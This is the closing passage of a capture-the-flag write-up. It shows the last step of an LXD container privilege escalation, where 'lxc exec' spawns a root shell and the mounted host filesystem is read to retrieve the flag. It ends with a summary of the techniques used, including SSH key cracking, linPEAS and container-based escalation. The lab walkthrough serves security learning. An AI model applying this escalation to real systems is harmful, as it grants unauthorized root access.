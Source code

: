 ```
+--------+---------+----------------------+-----------------------------------------------+------------+-----------+
```

It's imported and in a running state so it looks like we're set to escalate.

<br>

Running:

`lxc exec ignite /bin/sh`:

```
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # whoami
root
```

And just like that we have a root shell!

We mounted to **/mnt/root** in the 3rd command above so I change over to the /root directory inside the mount and find the **root.txt** flag waiting:

```
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
<REDACTED>
```

With that we've solved this CTF!

<br>

![](images/gamingserver4.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:
- Basic enumeration using nmap and gobuster
- Using ssh2john to convert the format of a RSA key
- Using John the Ripper to crack the convered RSA key
- Using ssh to connect to another system
- Checking for standard privilege escalation paths
- Transfering files between systems using a HTTP server on your system
- Scanning with linPEAS
- Building an alpine lxd container
- Importing an alpine lxd container
- Using an alpine lxd container to escalate privileges
